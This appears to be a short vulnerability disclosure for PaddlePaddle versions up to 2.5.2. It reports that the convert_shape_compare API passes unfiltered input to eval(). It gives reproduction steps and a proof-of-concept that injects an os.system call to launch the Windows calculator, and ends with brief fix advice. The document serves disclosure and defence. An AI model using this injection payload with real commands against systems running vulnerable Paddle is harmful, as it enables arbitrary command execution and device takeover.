
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability version: <= 2.5.2  
Vulnerability type: Command Execution  
Vulnerability vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause User's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run Python3 and Windows10

1、Download Paddle latest version(or <= v2.5.2)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

An unfiltered dangerous function (line 681) appeared in API function convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to carefully construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()
2、filter more

discovered by leeya_bug
